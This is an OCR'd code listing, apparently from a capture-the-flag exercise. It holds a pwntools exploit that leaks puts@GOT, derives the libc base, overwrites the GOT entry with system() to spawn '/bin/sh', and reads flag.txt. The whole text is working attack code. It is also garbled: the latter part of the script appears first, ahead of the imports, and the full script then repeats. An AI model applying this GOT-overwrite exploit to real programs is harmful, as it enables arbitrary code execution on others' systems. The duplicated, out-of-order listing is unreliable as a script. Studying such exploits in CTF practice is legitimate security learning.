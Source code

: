 ```python {linenos=table}
got_puts = io.unpack()
info("puts@GOT == %#x" % got_puts)
io.clean()

# Calculate the base address of libc so we can calculate system()
libc = context.binary.libc
libc.address = got_puts - libc.symbols.puts
info("libc == %#x", libc.address)

# Calculate system()
system = libc.symbols.system
io.pack(system)

# Get a shell
io.clean()
io.sendline('cat flag.txt')
success(io.clean())
from pwn import *

context.binary = e = ELF('got')

print("puts@got is at ", hex(e.got.puts))

# Start the process
io = e.process()
io.clean()

# We have 28 bytes, and 4 of them will be dumped
io.fit({
	0: '/bin/sh\x00',
	24: e.got.puts
})

# Receive data until we get the open colon
io.recvuntil(b"(")

# Receive exactly four bytes of leaked data
got_puts = io.unpack()
info("puts@GOT == %#x" % got_puts)
io.clean()

# Calculate the base address of libc so we can calculate system()
libc = context.binary.libc
libc.address = got_puts - libc.symbols.puts
info("libc == %#x", libc.address)

# Calculate system()
system = libc.symbols.system
io.pack(system)

# Get a shell
io.clean()
io.sendline('cat flag.txt')
success(io.clean())

```
